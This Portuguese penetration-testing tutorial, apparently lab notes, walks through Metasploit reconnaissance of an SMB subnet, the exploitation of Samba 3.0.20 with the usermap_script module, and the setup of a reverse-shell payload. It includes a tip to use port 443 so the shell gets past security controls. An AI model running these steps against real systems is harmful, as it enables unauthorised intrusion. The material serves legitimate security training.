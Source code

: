 <h2 align="center">Coletando informacoes com Metasploit</h2>
<hr>

Vamos comecar a deixar nossos testes mais interessantes , fazendo levantamento de informacoes de um range de uma rede toda atraves do metasploit framework

```
db_nmap -p 139,445 --open -Pn -sS 172.18.1.0/24
hosts
services

```

Oque a gente poed fazer agora ? Uma vez que a gente esta enumerando as portas 139 e 445 a gente pode buscar algum modulo auxiliar  pra tentar detectar as versoes desses sistemas 

```sh
search type:auxiliary smb
use auxiliary/scanner/smb/smb_version
info
services -p 445 --rhosts
show options
run

hosts
vulns
hosts -i "Samba 3.0.20 Debian" <IP>
```

Inclusive se nos quisarmos buscar vulnerabilidads nessa versao do samba a gente poderia


```sh
search type:exploit fullname:"Samba 3.0.20"
info exploit/multi/samba/usermap_script
```

```sh
use exploit/multi/samba_usermap_script
show options
set rhost <IP>
info
exploit
```

Agora que exploramos a falha, note que apareceu uma outra informacao , que nao havia aparecido o campo `payload`

<mark style='background:var(--mk-color-red)'>Payload eh o codigo malicioso que voce vai executar</mark>  

```sh
show payloads 
show options
```

Normalmente portas altas como 4444 nao vai funcionar em um cenario real com os controles de seguranca por conta de ser uma porta estranha para o host estar se conectando mesmo sendo uma conexao reversa , nesse caso o ideal seria liberar a porta 80 ou 443

```
set LPORT 443
show options
exploit
```

```
set payload <payload>
```